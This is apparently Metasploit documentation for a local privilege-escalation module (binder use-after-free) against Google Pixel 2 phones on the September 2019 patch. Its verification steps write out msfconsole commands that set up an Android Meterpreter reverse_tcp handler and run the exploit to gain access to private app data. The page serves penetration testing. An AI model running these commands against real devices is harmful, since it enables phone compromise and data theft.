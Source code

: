 ## Vulnerable Application

This exploit module currently targets a very specific build of Android on specific set of hardware targets:

 - Google Pixel 2 or Pixel XL 2 phones running the September 2019 security patch level.

This exploit module would have to be retargeted for any other potentially vulnerable build or hardware target.

One difficult issue with the Google Pixel 2 is that, while many Google phones have an unlocked bootloader, making it easy to download older Android revisions, the latest Pixel 2 updates show this feature has been disabled or broken [older revisions to the device firmware](https://developers.google.com/android/images). This may be a firmware bug or intentional, but Google themselves do not appear to have an answer [for the problem](https://support.google.com/pixelphone/thread/14920605?hl=en). For testing, you may need a phone never updated to a later Android revision.

## Verification Steps

 - Get an android meterpreter session on a Pixel 2 or Pixel XL 2 with the right kernel:

 `msfconsole -qx "use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set lhost $LHOST; set lport 4444; set ExitOnSession false; run -j`

 - Currently this only works on the Pixel 2 (and Pixel 2 XL) with september 2019 Security patch level. Validate the kernel version looks like this:

```
uname -a
Linux localhost 4.4.177-g83bee1dc48e8 #1 SMP PREEMPT Mon Jul 22 20:12:03 UTC 2019 aarch64
```

 - Run the exploit:

```
msf5 exploit(multi/handler) > use exploit/android/local/binder_uaf
msf5 exploit(android/local/binder_uaf) > set LHOST IPADDR
msf5 exploit(android/local/binder_uaf) > set LPORT 4448 (different from your Android meterpreter port)
LPORT => 4448
msf5 exploit(android/local/binder_uaf) > set SESSION -1
SESSION => -1
msf5 exploit(android/local/binder_uaf) > run
```

 - **Verify** the new session can read and write private application data (in /data/data/..../)

## Scenarios

This module illustrates a privesc that, when chained with other exploit vectors, could turn an unprivileged sandboxed exploit into a sandbox escape and system compromise. Note that the target application may need to match the kernel CPU type, so for instance a 64-bit Chrome would need to be targeted with a 64-bit kernel.
